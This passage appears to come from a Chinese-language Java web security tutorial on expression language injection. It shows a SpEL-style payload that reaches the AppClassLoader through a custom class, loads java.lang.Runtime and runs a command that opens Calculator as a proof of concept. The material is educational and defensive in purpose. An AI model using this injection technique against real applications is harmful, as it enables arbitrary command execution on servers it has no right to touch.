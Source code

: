 <div align=center><img src="./images/4.png"></div>

例如, 这里利用自定义类`h3rmek1t.javawebsecurity.ElShell`来获取`AppClassLoader`.

```java
T(h3rmek1t.javawebsecurity.ElShell).getClassLoader().loadClass("java.lang.Runtime").getRuntime().exec("open -a Calculator")
```

<div align=center><img src="./images/5.png"></div>
